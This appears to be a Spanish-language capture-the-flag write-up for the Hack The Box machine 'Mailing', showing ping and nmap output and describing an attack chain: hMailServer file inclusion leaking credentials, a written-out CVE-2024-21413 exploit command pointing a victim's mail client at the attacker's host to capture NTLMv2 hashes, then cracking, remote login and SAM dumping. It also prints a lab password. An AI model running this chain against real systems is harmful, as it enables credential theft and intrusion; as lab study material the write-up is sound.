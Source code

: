 #ActiveDirectory #Easy #tecnicas #windows 
### Ping
```python
ping -c 1 10.10.11.14
PING 10.10.11.14 (10.10.11.14) 56(84) bytes of data.
64 bytes from 10.10.11.14: icmp_seq=1 ttl=127 time=73.6 ms

--- 10.10.11.14 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 73.610/73.610/73.610/0.000 ms
```

### TTL 127 = Windows

### nmap
```python
# Nmap 7.94SVN scan initiated Sat May  4 15:09:21 2024 as: nmap -p- --open -sC -sV --min-rate 3000 -n -Pn -oN Scan 10.10.11.14
Nmap scan report for 10.10.11.14
Host is up (0.072s latency).
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://mailing.htb
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER TOP UIDL
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: RIGHTS=texkA0001 IMAP4rev1 SORT NAMESPACE OK IMAP4 QUOTA IDLE ACL completed CAPABILITY CHILDREN
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
587/tcp   open  smtp          hMailServer smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
993/tcp   open  ssl/imap      hMailServer imapd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_imap-capabilities: RIGHTS=texkA0001 IMAP4rev1 SORT NAMESPACE OK IMAP4 QUOTA IDLE ACL completed CAPABILITY CHILDREN
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
54017/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-04T19:09:44
|_  start_date: N/A
|_clock-skew: -1m19s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May  4 15:11:47 2024 -- 1 IP address (1 host up) scanned in 145.93 seconds
```

### Enumeración del puerto 80
tenemos un botón para descargar instrucciones asi que esto puede ser interesante 
![[Pasted image 20240611204141.png]]

### CVE = LFI
despues de investigar un poco he descubierto que esta pagina usa hmailserver el cual es vulnerable a un `LFI`

![[Pasted image 20240611204147.png]]

### hmailserver
apuntando al archivo de configuración de hmailserver puedo descargar el archivo de configuración completo en el cual he obtenido credenciales 

![[Pasted image 20240611204211.png]]
### Validando usuarios y contraseñas
no tenemos exito. 
![[Pasted image 20240611204223.png]]

### telnet
con estas credenciales vamos a intentar una conexión vía telnet al puerto 110 
![[Pasted image 20240611204235.png]]

### Responder
despues de investigar un poco hemos encontrado el usuario administrator el cual nos permite ejecutar el siguiente `POC`
`Esta CVE nos permite enviar un correo electronico y con el responder vamos a estar a la escucha para poder obtener un hash NTLMv2 el cual podemos crackear`

```python
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.140\meeting" --subject "XD
```
![[Pasted image 20240611204253.png]]

`crackeamos el hash NTLMv2 con john`
obtenemos la contraseña en texto claro de maya
![[Pasted image 20240611204301.png]]

### EvinWinrm
logramos obtener conexión con la maquina haciendo uso de las credenciales que hemos conseguido antes
![[Pasted image 20240611204309.png]]

### Escalada de privilegios
tenemos un montón de privilegios que podrían ayudarnos a elevar privilegios
![[Pasted image 20240611204316.png]]

### CVE-2023-2255
después de buscar un poco en internet encontré esta `CVE` 
![[Pasted image 20240611204321.png]]

### descargamos el exploit que hemos creado
una ves descargado el exploit debemos verificar el estado del usuario maya
![[Pasted image 20240611204331.png]]

### Usaremos un servidor de intermediario para poder enviarnos los archivos 

![[Pasted image 20240611204339.png]]

### Usando crackmapexec smb podemos dumpear la sam

![[Pasted image 20240611204346.png]]

### impacket-wmiexec
con esta herramienta de impacket podemos establecer una conexión vía localadmin en la maquina victima. sin embargo la suite de impacket ya esta desactualizada por lo cual tuve que descargar la herramienta por separado y todo me fue de lujo

![[Pasted image 20240611204400.png]]
### WE ARE ROOT